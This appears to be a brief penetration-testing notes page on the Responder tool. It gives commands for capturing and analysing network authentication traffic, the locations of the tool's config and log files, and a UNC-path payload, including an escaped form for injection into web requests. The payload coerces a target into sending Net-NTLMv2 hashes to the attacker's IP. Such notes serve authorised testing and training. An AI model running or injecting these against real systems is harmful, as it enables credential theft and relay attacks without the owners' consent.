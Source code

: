 ```yaml
---
tags:
  - tool
  - packet_capture
---
```

# Responder

Capture connections

## Capabilities

```bash
# Analyze mode (passive)
sudo responder -I tun0 -A

# Listen for incoming requests
sudo responder -I tun0

# Include previously captured hashes
sudo responder -I tun0 -v
```

**File Locations**

```powershell
# Config
/usr/share/responder/Responder.conf
/etc/responder/Responder.conf

# Logs
/usr/share/responder/logs/*
```

Capture `Net-NTLMv2` hashes by initiating a request via the following command on the target. These hashes can be relayed so long as SMB signing is disabled.

```powershell
dir \\$OUR_IP\a
```

**Note:** Make sure to include escape characters when injecting in a web request

```powershell
\\\\$OUR_IP\a
```

**Log file location:**

```powershell
/usr/share/responder/logs
```
